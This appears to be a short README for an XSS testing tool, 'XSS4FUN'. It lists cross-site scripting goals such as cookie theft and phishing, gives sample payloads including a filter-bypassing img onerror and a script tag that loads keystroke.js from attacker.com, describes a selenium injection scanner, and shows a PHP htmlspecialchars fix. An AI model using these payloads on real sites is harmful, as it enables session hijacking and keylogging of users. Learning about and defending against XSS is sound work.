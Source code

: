 # XSS4FUN :cookie:
Cross-Site-Scripting just for fun.

## Cross-Site-Scripting Applications:
  - Steal cookies for session hijacking.
  - Modify Webpage to perform phishing.
  - Inject malicious code.
## Basic payloads:
  - <script>alert(1)</script>

## Useful payloads:
  - **<script src=https://attacker.com/keystroke.js > </script>**
    - To include malicious javascript code in page.
  - **\<img src=anything onerror=alert(1) >**
    - When the **<script>** is being filtered by the Web Application, you can use javascript events.
 
## Automated Detection
  - xss4fun.py
     - Using selenium to find input fields and inject payloads, if the injection is sucessful, a printscreen is made.

## Mitigations    
  ## PHP
   Using **htmlspecialchars** to convert special characters to HTML.
  ```
  $word = htmlspecialchars($_GET['word']);
  ```
  So this **<script>alert(1)</script>** becomes this **\&lt;script\&gt;alert(1)\&lt;/script&gt**
